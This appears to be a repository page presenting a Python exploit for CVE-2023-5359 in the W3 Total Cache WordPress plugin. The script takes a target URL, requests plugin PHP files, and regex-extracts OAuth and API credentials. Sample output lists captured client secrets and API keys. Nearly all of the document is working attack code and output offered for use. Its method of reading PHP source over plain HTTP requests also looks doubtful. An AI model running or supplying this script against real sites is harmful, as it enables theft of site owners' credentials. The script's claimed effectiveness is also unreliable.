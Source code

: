 # Cleartext-Storage-vulnerability-CVE-2023-5359-in-W3-Total-Cache
Targets versions ≤2.7.5 vulnerable to CVE-2023-5359

-------------------
import requests
import re
from urllib.parse import urljoin

# Common paths where credentials are stored
CREDENTIAL_PATHS = [
    "/wp-content/plugins/w3-total-cache/Extension_CloudFlare_Plugin.php",
    "/wp-content/plugins/w3-total-cache/Generic_Plugin_Admin.php",
    "/wp-content/plugins/w3-total-cache/Extension_FeedBurner_Plugin.php"
]

def check_w3tc_presence(target_url):
    """Check if W3 Total Cache is installed"""
    try:
        response = requests.get(target_url, timeout=10)
        if "wp-content/plugins/w3-total-cache" in response.text:
            return True
        return False
    except Exception as e:
        print(f"Connection error: {str(e)}")
        return False

def extract_credentials(target_url):
    """Extract plaintext credentials from vulnerable files"""
    credentials = {}
    
    for path in CREDENTIAL_PATHS:
        full_url = urljoin(target_url, path)
        try:
            response = requests.get(full_url, headers={"User-Agent": "Mozilla/5.0"})
            if response.status_code == 200:
                # Search for common credential patterns
                matches = re.findall(
                    r"(client_id|client_secret|api_key|oauth_token)\s*=\s*['\"]([a-zA-Z0-9-_]+)['\"]",
                    response.text
                )
                if matches:
                    credentials[path] = dict(matches)
        except Exception as e:
            continue
            
    return credentials

def main():
    target = input("Enter target URL (e.g., https://example.com): ").strip()
    
    if not check_w3tc_presence(target):
        print("[-] W3 Total Cache not detected")
        return
    
    print("[+] W3 Total Cache detected. Checking for CVE-2023-5359...")
    
    creds = extract_credentials(target)
    
    if creds:
        print("\n[!] Sensitive credentials found:")
        for filepath, data in creds.items():
            print(f"\nFile: {filepath}")
            for key, value in data.items():
                print(f"  {key}: {value}")
    else:
        print("[+] No credentials found in common locations")

if __name__ == "__main__":
    main()
----------------

Enter target URL (e.g., https://example.com): https://vulnerable-site.com
[+] W3 Total Cache detected. Checking for CVE-2023-5359...

[!] Sensitive credentials found:

File: /wp-content/plugins/w3-total-cache/Extension_CloudFlare_Plugin.php
  client_id: GOxxxxxxxxxxxx78
  client_secret: ABcdEFghIJklMNopQRstUVwxYZ

File: /wp-content/plugins/w3-total-cache/Generic_Plugin_Admin.php
  api_key: AIzaSyABCDefghIJKLmnopQRSTUVWXYZ-123456
